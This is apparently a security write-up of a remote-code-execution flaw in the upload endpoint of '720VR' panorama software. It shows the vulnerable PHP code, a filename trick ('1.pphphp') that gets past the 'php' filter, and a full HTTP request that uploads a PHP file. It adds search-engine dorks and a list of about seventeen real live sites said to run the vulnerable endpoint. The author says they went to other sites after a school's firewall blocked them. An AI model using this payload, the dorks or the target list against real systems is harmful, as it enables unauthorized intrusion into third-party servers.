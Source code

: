 # 720VR File upload RCE
## Source code analysis
The reason was that the school's VR site exposed the source code, and then the white box audit revealed the hole but could not be utilized (the school has WAF to automatically intercept malicious files), so I tried to search for the same source code site on Google syntax and successfully utilized it.
/App/Tools/Uploader/done.php and/App/Tools/Plupload/upload.chp are two file upload interfaces
```
<?php
define('UPLOAD_ROOT', str_replace("\\", '/', dirname(__FILE__)));
$allbase = UPLOAD_ROOT;
$basearr = explode("/App/", $allbase);
$base = $basearr[0];
$nowtime = time();
$basedir = "/uploads/station";
if (is_dir($base . $basedir) == FALSE) {
mkdir($base . $basedir);
}
$filetype = explode(".", $_FILES['Filedata']['name']);
$len = count($filetype) - 1;
$filetype = $filetype[$len];
$pinfo = basename($_FILES['Filedata']['tmp_name']);
$pinfo = explode(".", $pinfo);
$pinfo = $nowtime . $pinfo[0] . "." . $filetype; //Generate file name
$pinfo = str_replace("php", "", $pinfo);
$fileurl = $basedir . "/" . $pinfo;
if (move_uploaded_file($_FILES['Filedata']['tmp_name'], $base . $fileurl)) {
echo $fileurl;
}
?>
```
Before uploading the file, there is a judgment: $pinfo=str_deplace ("php", "", $pinfo);
This function can be bypassed, double written, and then uploaded as a PHP file, which is **1.pphphp**
After being processed by this function, it becomes 1.php
## Exploiting vulnerabilities
The vulnerability effect is as follows:
![](1.png)
visit http://www.dazhubim.com/uploads/station/1751943200999.php
![](2.png)
## Original data packet
```
POST /App/Tools/Uploader/done.php HTTP/1.1
Host: www.dazhubim.com
Content-Length: 309
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data;  boundary=----WebKitFormBoundarybdbxlJtXrPVqZLdL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml; q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh; q=0.9
Connection: close
------WebKitFormBoundarybdbxlJtXrPVqZLdL
Content-Disposition: form-data;  name="Filedata";  filename="1.pphphp"
Content-Type: text/plain
<?php phpinfo();? >
------WebKitFormBoundarybdbxlJtXrPVqZLdL
Content-Disposition: form-data;  name="submit"
Upload file
------WebKitFormBoundarybdbxlJtXrPVqZLdL--
```
## Example site
bing:"720vr全景软件"
google:"720vr全景软件淘宝店独家销售" OR "720vr全景软件淘宝店独家开发"

http://www.dazhubim.com/App/Tools/Uploader/done.php
https://tinglan.net/App/Tools/Uploader/done.php
http://720qjlm.com/App/Tools/Uploader/done.php
https://pano-admin.huanjutang.com/App/Tools/Uploader/done.php
https://123xvr.net/App/Tools/Uploader/done.php
https://www.twmlzg.com/App/Tools/Uploader/done.php
https://ai.86pano.com/vr/App/Tools/Uploader/done.php
https://www.yunshangchongqing.com/App/Tools/Uploader/done.php
https://vr.aitrace.com/App/Tools/Uploader/done.php
https://vr.xhjj.com/App/Tools/Uploader/done.php
http://www.quanjingyun.net/App/Tools/Uploader/done.php
http://www.dazhubim.com/App/Tools/Uploader/done.php
https://www.yj-3d.com:666/App/Tools/Uploader/done.php
http://vr.newiset.com:8189/App/Tools/Uploader/done.php
https://sfthink.com/App/Tools/Uploader/done.php
https://111.230.51.217/App/Tools/Uploader/done.php
https://vr.lzxqzc.com/App/Tools/Uploader/done.php
